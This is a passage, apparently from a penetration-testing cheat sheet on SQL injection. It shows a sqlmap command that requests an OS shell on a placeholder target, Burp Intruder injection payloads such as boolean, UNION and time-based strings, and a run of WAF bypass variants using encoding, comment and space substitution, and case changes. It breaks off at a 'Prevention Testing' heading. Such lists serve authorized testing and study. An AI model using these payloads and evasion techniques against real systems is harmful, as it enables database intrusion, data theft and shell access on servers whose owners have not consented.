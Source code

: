 ```bash
sqlmap -u "http://target.com/page.php?id=1" --os-shell
```

### Burp Suite Integration
```bash
# Send to Intruder
1. Capture request in Burp
2. Send to Intruder
3. Mark injection point
4. Add payloads:
   - ' OR 1=1--
   - ' UNION SELECT NULL--
   - ' AND SLEEP(5)--
```

## WAF Bypass Techniques

### Encoding
```sql
# URL encoding
%27%20OR%201%3D1%2D%2D

# Hex encoding
0x27206f7220313d312d2d

# Double encoding
%2527%2520OR%25201%253D1%252D%252D
```

### Alternative Syntax
```sql
# Comment alternatives
' OR 1=1#
' OR 1=1/*

# Space alternatives
'OR(1=1)--
'OR/**/1=1--
```

### Case Manipulation
```sql
# Mixed case
' Or 1=1--
' oR 1=1--
' OR 1=1--
```

## Prevention Testing
